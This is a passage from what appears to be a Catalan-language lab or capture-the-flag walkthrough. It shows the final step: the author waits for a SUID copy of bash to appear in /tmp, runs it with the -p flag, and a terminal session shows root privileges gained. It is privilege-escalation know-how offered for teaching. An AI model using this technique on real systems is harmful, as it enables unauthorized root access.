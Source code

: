 Esperem un minut i obtenim una bash amb **SUID**. La utilitzem i elevem privilegis a **root**.  

```bash
luigi@22ae1bc1f511:/home/luigi$ ls -la /tmp/b
-rwsr-sr-x 1 root root 1183448 Feb  2 01:17 /tmp/b
luigi@22ae1bc1f511:/home/luigi$ /tmp/b -p
b-5.0# id
uid=1000(luigi) gid=0(root) euid=0(root) groups=0(root)
b-5.0# 
```

**Laboratori finalitzat, espero que us hagi agradat o que hàgiu après alguna cosa.**
